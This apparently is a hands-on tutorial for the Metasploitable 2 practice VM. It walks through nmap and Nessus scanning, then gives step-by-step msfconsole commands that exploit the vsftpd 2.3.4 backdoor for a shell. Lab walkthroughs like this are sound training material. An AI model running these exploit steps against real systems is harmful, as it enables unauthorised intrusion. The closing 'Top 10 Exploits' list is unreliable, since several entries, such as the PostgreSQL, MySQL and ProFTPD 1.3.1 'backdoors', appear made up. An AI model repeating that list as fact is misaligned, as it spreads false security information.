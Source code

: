 
# Metasploitable 2: A Hands-On Guide to Vulnerability Scanning and Exploitation

Metasploitable 2 is a deliberately vulnerable Linux virtual machine designed for security professionals and enthusiasts to practice penetration testing and vulnerability assessment techniques. Developed by Rapid7, it offers a safe environment to explore various vulnerabilities commonly found in real-world systems.

Setting Up Metasploitable 2

To get started, download the Metasploitable 2 VM image from the official repository. Import the VM into your preferred virtualization platform, such as VirtualBox or VMware. Once set up, start the VM and log in using the default credentials:

- Username: msfadmin
- Password: msfadmin

Ensure that both your attacking machine (e.g., Kali Linux) and the Metasploitable 2 VM are on the same network to facilitate communication.

Basic Vulnerability Scanning with Nmap

The first step in any penetration test is reconnaissance. Nmap (Network Mapper) is a powerful tool for discovering hosts and services on a network. To perform a basic scan of the Metasploitable 2 VM, use the following command:

nmap -sS -sV -O <target_ip>

- -sS: Performs a SYN scan (stealth scan).
- -sV: Detects service versions.
- -O: Attempts to determine the operating system.

This scan will provide information about open ports, running services, and their versions, which are crucial for identifying potential vulnerabilities.

Identifying Vulnerabilities with Nessus

While Nmap provides basic information, Nessus offers a more comprehensive vulnerability assessment. Nessus Essentials is a free version suitable for personal use. After installing Nessus on your attacking machine, log in to the web interface and create a new scan targeting the Metasploitable 2 IP address.

Nessus will perform an in-depth analysis and generate a report detailing discovered vulnerabilities, their severity, and potential remediation steps. This report is invaluable for planning exploitation strategies.

Exploiting Vulnerabilities with Metasploit

Metasploit is a powerful framework for developing and executing exploit code against a remote target machine. After identifying vulnerabilities, you can use Metasploit to attempt exploitation.

For instance, if Nmap or Nessus identifies a vulnerable FTP service (e.g., vsftpd 2.3.4), you can exploit it using Metasploit:

1. Launch Metasploit:

msfconsole

2. Search for the exploit:

search vsftpd

3. Select the appropriate exploit:

use exploit/unix/ftp/vsftpd_234_backdoor

4. Set the target IP:

set RHOST <target_ip>

5. Run the exploit:

exploit

If successful, you will gain a shell on the target machine, allowing you to further investigate and exploit other vulnerabilities.

Top 10 Exploits in Metasploitable 2

The metasploitable2_exploits.txt file in the GitHub repository lists the top 10 exploits for Metasploitable 2. These include:

1. vsftpd 2.3.4 Backdoor Command Execution
2. UnrealIRCd 3.2.8.1 Backdoor Command Execution
3. Samba 3.0.20-4 usermap script Command Execution
4. Apache 2.2.8 mod_rewrite Command Execution
5. PostgreSQL 8.3.0-1 Backdoor Command Execution
6. MySQL 5.0.51a-3ubuntu5.1 Backdoor Command Execution
7. ProFTPD 1.3.1 Backdoor Command Execution
8. Joomla! 1.5.9 SQL Injection
9. Drupal 6.8 SQL Injection
10. PHP CGI Argument Injection

Conclusion

Metasploitable 2 serves as an excellent platform for learning and practicing penetration testing techniques. By combining tools like Nmap, Nessus, and Metasploit, you can simulate real-world attacks and enhance your cybersecurity skills. Always remember to conduct such activities in a legal and ethical manner, ensuring you have proper authorization before testing any systems.

For more detailed guides and tutorials, refer to Metasploit Unleashed and Metasploit Documentation resources.
